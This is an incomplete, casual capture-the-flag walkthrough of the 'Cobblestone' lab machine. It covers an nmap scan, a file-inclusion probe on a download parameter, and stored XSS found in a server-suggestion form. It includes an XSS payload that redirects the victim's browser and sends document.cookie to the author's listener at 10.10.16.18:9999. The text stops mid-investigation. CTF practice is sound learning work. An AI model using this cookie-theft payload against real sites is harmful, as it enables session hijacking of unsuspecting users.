










## Machine Cobblestone (Active) [INSANE]

let's attempt it !
nmap scan : 
```
❯ nmap -sV -T4 -F 10.129.232.170
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-27 16:14 +0100
Nmap scan report for 10.129.232.170
Host is up (1.1s latency).
Not shown: 98 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.62
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.42 seconds
```

so http + ssh , ok \

so there's 3 buttons,before that let's do some enumeration. directory scan and subdomains,
got a lot of noise, nvm it\
let's explore the website on its own:\
\
nothing interesting on ``` deploy.cobblestone.htb ``` let's check the other two, so skins.php redirects you to login.php where you can register or login and vote.cobblestone.htb redirects you to login first ``` http://vote.cobblestone.htb/login.php ```
i created an account ```testuser:testPass123```\
and we are in skins.php:\
\
nostalgia hits man, anyways, we can download the skins , but look closely at how the download is being made: u download the skin from ```http://cobblestone.htb/download.php?skin=/skins/sword4000.png``` , we might attempt an lfi , i tried this :\
\
hmm\
let's check vote.cobblestone.htb , so here you can upvote servers :\
\
and there's another one, you can suggest servers by submitting a link:\
\
im thinking maybe you send a lnik and there's an admin bot that visits it. let's do a python server and test:\
\
it takes me here, but in the url there's this: ```vote.cobblestone.htb/details.php?id=4``` can we take a look at other id's ?\
well they are the same server shown in the first page, but their status is like mine approved:false. \
\
my suggestion now appears too in here, anyways, when i tried id=0 i got redirected with this error message ``` You are not allowed to view this suggestion ``` but it was the same for 5 and 6 and the no existent id's so nothing really interesting, 


well ...... let me tell you something we got xss, in the placeholder where you suggest server, i gave ``` <script>alert(1)</script> ``` , and lucky enough i get this :\
\
so we have XSS, let's see what we can do, let's try to steal some cookies:
``` <script>document.location='http://10.10.16.18:9999/?c='+document.cookie</script> ```, hm got nothing,that took me here : \
that's my device XD (with the files where the root of the python server i hosted is )

it's been a long time, so im thinking on going back and submitting a normal server, u see it displays again the suggestion menues, meaning it's stored in a database with id 4 for this example, what if its not sanitized\


--hello after like 5 days, let's get back to this:\
